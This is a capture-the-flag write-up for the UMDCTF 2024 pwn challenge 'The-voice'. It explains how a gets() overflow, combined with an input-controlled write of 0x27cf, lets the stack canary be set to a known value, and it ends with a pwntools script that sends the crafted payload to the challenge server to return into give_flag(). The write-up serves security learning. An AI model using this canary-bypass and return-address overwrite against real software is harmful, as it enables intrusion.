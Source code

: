 ```yaml
---
title: The-voice
type: writeup
date: 2024-04-26T14:23:28+03:00
description: Writeup for The-voice [UMD 2024]
author: PineBel
tags:
  - pwn
draft: false
---
```

## Challenge Description

Firing your weapon when the spice harvester's shields are down requires exceptional timing.

### Intuition
This was an easy pwn challenge. We get the source code but it doesn't hint anything besides an obvious BOF and a give_flag() function. Sadly we have a canary so we are a bit stuck..

If we open the binary in Ghidra we can see that we can actually write over the canary from the stack the value 10191.

```C
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
    ....
  gets(local_28);
  iVar1 = FUN_00401100(local_28);
  *(undefined8 *)(in_FS_OFFSET + (long)iVar1 * 8 + -0x50) = 0x27cf;
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }

```
### Solution 

The solution is pretty simple, we calculate what value our input needs to have so we can write 0x27cf where the actual canary is (fs+0x28), and after that we can just write over local_10 the same value and bypass the canary check this way and return to the give_flag() function.

```py
from pwn import *

target = process("./the_voice")
target = remote("challs.umdctf.io","31192")
target.recvuntil(b".")


flag = p64(0x4011f6)
payload = b"0"*22+b"15"+p64(0x27cf)+b"a"*8+flag
target.sendline(payload)
target.interactive()

```